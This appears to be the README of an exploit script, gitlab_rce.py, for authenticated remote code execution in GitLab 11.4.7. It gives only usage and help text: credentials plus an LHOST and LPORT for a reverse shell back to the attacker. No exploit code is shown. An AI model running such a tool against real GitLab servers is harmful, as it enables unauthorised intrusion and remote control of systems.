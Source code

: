 # GitLab-11.4.7-Authenticated-Remote-Code-Execution


<h3> Usage : python gitlab_rce.py -U `USERNAME` -P `PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

optional arguments:
  -h, --help  show this help message and exit
  -U U        GitLab Username
  -P P        Gitlab Password
  -l L        rev shell lhost
  -p P        rev shell lport
